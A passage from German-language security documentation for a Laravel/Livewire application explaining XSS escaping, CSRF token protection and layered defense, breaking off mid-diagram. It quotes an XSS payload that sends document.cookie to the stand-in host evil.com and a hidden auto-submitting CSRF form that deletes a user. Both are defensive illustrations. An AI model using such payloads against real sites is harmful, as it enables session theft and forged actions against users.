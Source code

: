 **Unsere Schutzmaßnahme:**
```blade
<!-- Laravel Blade (sicher) -->
<div>Hallo {{ $user->name }}</div>

<!-- Sichere Ausgabe: -->
<div>Hallo &lt;script&gt;document.location='http://evil.com?cookie='+document.cookie;&lt;/script&gt;</div>
<!-- Ergebnis: Script wird als Text angezeigt, nicht ausgeführt -->
```

### CSRF-Schutz im Detail

**Traditioneller Angriff:**
```html
<!-- Bösartige Website des Angreifers -->
<form action="https://ihreapp.com/admin/users" method="POST" style="display:none">
    <input name="action" value="delete">
    <input name="user_id" value="123">
</form>
<script>document.forms[0].submit();</script>
```

**Unsere Schutzmaßnahme:**
```blade
<!-- Livewire Formular (automatisch geschützt) -->
<form wire:submit="saveUser">
    @csrf  <!-- Laravel fügt automatisch Token hinzu -->
    <input type="text" wire:model="name">
    <button type="submit">Speichern</button>
</form>
```

```php
// Server-seitige Validierung
public function saveUser() {
    // Diese Methode wird nur ausgeführt, wenn:
    // 1. Benutzer authentifiziert ist
    // 2. CSRF-Token gültig ist
    // 3. Benutzer Admin-Rolle hat
}
```

## Sicherheitsarchitektur Übersicht

### Mehrstufige Verteidigung (Defense in Depth)

```
┌─────────────────────────────────────────────────────────────┐
│                    BENUTZER EINGABE                         │
└─────────────────┬───────────────────────────────────────────┘
                  │
┌─────────────────▼───────────────────────────────────────────┐
│              CSRF-Schutz                                    │
│        ✅ Laravel validiert Token                          │
│        ❌ Gefälschte Anfragen abgelehnt                    │
└─────────────────┬───────────────────────────────────────────┘
                  │
┌─────────────────▼───────────────────────────────────────────┐
│              XSS-Schutz                                     │
│        ✅ Blade escaped Ausgabe                            │
│        ❌ Script-Injektion verhindert                      │
└─────────────────┬───────────────────────────────────────────┘
                  │
┌─────────────────▼───────────────────────────────────────────┐
│           SQL-Injection-Schutz                              │
```